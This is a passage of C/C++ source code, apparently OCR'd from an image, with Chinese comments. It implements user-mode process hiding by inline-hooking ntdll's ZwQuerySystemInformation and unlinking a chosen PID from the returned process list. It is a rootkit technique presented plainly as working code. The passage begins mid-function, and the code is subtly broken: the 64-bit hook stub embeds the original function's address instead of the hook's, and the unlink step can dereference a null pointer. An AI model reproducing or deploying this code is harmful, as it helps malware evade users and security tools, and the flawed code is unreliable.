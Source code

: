 ```c#
	PSYSTEM_PROCESS_INFORMATION pPrev = NULL;
	while (TRUE)
	{			
		//判断PID是否是隐藏进程
		if (dwHidePid == (DWORD)pCur->UniqueProcessId)
		{
              //pPrev -- 指向前一个
              //pCur  -- 指向当前
              //pNext -- 指向下一个
			//找到隐藏进程,清除进程信息,即将pPrev的NextEntryOffset字段改为pNext偏移
			if (0==pCur->NextEntryOffset && pPrev)
			{
				pPrev->NextEntryOffset = 0;
			}
			else
			{
				pPrev->NextEntryOffset = pPrev->NextEntryOffset + pCur->NextEntryOffset;
			}
		}
		else
		{
			pPrev = pCur;
		}
		if (0 == pCur->NextEntryOffset)
		{
			break;
		}
		pCur = (PSYSTEM_PROCESS_INFORMATION)((BYTE*)pCur + pCur->NextEntryOffset);
	}
}
HookAPI();
return status;

}

void HookAPI()
{
	// 1.获取Ntdll中的ZwQuerySystemInformation函数地址
	HMODULE hNtdll = ::GetModuleHandleA("ntdll.dll");
	fnZwQuerySystemInformation = \
		(pfnZwQuerySystemInformation)GetProcAddress(hNtdll, "ZwQuerySystemInformation");
	if (!fnZwQuerySystemInformation)return;
	// 2.修改地址
#ifndef _WIN64
	BYTE pData[5] = { 0xE9 };
	DWORD dwOffset= (DWORD)My_ZwQuerySystemInformation - (DWORD)fnZwQuerySystemInformation - 5;
	::RtlCopyMemory(&pData[1], &dwOffset, sizeof(dwOffset));
	//保存前5字节数据
	::RtlCopyMemory(g_OldData32, fnZwQuerySystemInformation, 5);
#else
	BYTE pData[12] = { 0x48,0xB8,0,0,0,0,0,0,0,0,0x50,0xC3 };
	ULONGLONG dwDestAddr = (ULONGLONG)fnZwQuerySystemInformation;
	::RtlCopyMemory(&pData[2], &dwDestAddr, sizeof(dwDestAddr));
	//保存前12字节数据
	::RtlCopyMemory(g_OldData64, fnZwQuerySystemInformation, 12);
#endif
	// 3.设置页面属性可读可写可执行
	DWORD dwOldProtect = 0;
	VirtualProtect(fnZwQuerySystemInformation, sizeof(pData), PAGE_EXECUTE_READWRITE, 
		&dwOldProtect);
	::RtlCopyMemory(fnZwQuerySystemInformation, pData, sizeof(pData));
	VirtualProtect(fnZwQuerySystemInformation, sizeof(pData), dwOldProtect,
		&dwOldProtect);
```